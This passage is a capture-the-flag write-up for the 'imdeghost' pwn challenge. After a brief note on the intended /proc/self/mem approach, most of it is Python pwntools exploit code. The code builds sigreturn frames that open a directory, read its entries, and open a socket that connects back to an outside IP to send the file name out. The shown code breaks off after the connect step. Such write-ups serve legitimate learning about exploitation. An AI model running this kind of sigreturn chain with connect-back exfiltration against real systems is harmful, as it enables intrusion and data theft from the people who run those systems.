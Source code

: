 The assumed solution is to open `/proc/self/mem` and write the execution code directly in the area of `0x133700000000` using `sys_pwrite64 (18)` without using `sys_getdents (78)`.
See below for details.
https://github.com/pbjar/Challenges/blob/main/Pwn/imdeghost/imdeghost.py

Thanks to Rythm for the interesting challenges and post-competition supports.

## Exploit code:
Python code to get the file name (If you get it from the server, you need to set NAT etc on your router.)
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './imdeghost'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "143.198.127.103"
  PORT = 42007
  s = remote(HOST, PORT)
  ip_addr = 0xbe409f76  
else:
  s = process(BINARY)
  libc = elf.libc
  ip_addr = 0x0100007f  # 127.0.0.1 

s.recvuntil("for you will not be seeing it again.\n")

mem         = 0x6900000000
syscall_ret = 0x13370000004b # syscall; test r14,r14; jne 0x13370000003e; mov rax,r15; ret

def Sigreturn(rax, rbx, rcx, rdx, rsi, rdi, rbp, rsp, rip, r8, r9, r10, r11, r12, r13, r14, r15):
  buf  = p64(0)*5
  buf += p64(r8) + p64(r9) + p64(r10) + p64(r11) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
  buf += p64(rdi) + p64(rsi) + p64(rbp) + p64(rbx) + p64(rdx) + p64(rax) + p64(rcx) + p64(rsp) + p64(rip)
  buf += p64(0) + p64(0x33) + b"AAAAAAAA"*4 + p64(0)
  return buf

mem = 0x6900000000

buf  = p64(syscall_ret)
# sys_open("./", 0, 0x200000)
buf += Sigreturn(2, 0, 0, 0x200000, 0, mem + 0xe00, mem + 0x170, mem + 0xf0, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_getdents(0, mem+0xb00, 0x300)
buf += Sigreturn(78, 0, 0, 0x300, mem + 0xb00, 0, mem + 0x170, mem + 0xf0*2, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_socket(2, 1, 6)
buf += Sigreturn(0x29, 0, 0, 6, 1, 2, mem + 0x170, mem + 0xf0*3, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_connect(1, mem+0xe80, 0x10)
buf += Sigreturn(0x2a, 0, 0, 0x10, mem + 0xe80, 1, mem + 0x170, mem + 0xf0*4, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)
```